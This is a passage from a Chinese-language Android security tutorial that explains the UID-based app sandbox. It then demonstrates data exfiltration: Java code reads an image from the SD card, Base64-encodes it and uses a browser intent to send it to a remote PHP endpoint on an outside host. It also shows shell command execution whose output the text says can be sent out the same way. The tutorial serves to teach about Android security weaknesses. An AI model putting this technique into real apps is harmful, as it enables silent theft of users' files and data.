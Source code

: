 ```shell
    </permission>

    <permission name="android.permission.CAMERA" >
        <group gid="camera" />
    </permission>

. . .  [Some of the data has been stripped from here in order to shorten the output and make it readable]

</permissions>
```

此外，这清除了对在 Android 设备中运行的本地应用程序的怀疑。 由于本地应用程序直接与处理器交互，而不是在 Dalvik 虚拟机下运行，因此它不会以任何方式影响整体安全模型

现在，就像我们在前面部分看到的，应用程序将其数据存储在`location/data/data/[package name]`。 现在，存储应用程序数据的所有文件夹也具有相同的用户 ID，这构成 Android 安全模型的基础。 根据 UID 和文件权限，它将限制来自具有不同 UID 的其他应用程序对它的访问和修改。

在下面的代码示例中，`ret`包含以 Base64 格式编码存储在的 SD 卡中的图像，现在正在使用浏览器调用来上传到`attify.com`网站。 目的只是找到一种方式来在两个不同的 Android 对象之间进行通信。

我们将首先创建一个对象来存储图像，在 Base64 中编码，最后将其存储在一个字符串中`imageString`：

```java
final File file = new File("/mnt/sdcard/profile.jpg");
Uri uri = Uri.fromFile(file);
ContentResolver cr = getContentResolver();
Bitmap bMap=null;
try {
    InputStream is = cr.openInputStream(uri);
    bMap = BitmapFactory.decodeStream(is);
    if (is != null) {
        is.close();
    }  
} catch (Exception e) {
    Log.e("Error reading file", e.toString());
}

ByteArrayOutputStream baos = new ByteArrayOutputStream();  
bMap.compress(Bitmap.CompressFormat.JPEG, 100, baos);   
byte[] b = baos.toByteArray();
String imageString = Base64.encodeToString(b,Base64.DEFAULT);
```

最后，我们将启动浏览器将数据发送到我们的服务器，我们有一个`.php`文件侦听传入的数据：

```java
startActivity(new Intent(Intent.ACTION_VIEW,Uri.parse("http://attify.com/up.php?u="+imageString)));
```

我们还可以执行命令并以相同的方式将输出发送到远程服务器。 但是，这里需要注意的一点是 shell 应该在应用程序的用户下运行：

```java
// To execute commands : 
String str = "cat /proc/version";     //command to be executed is stored in str.
process = Runtime.getRuntime().exec(str);
```
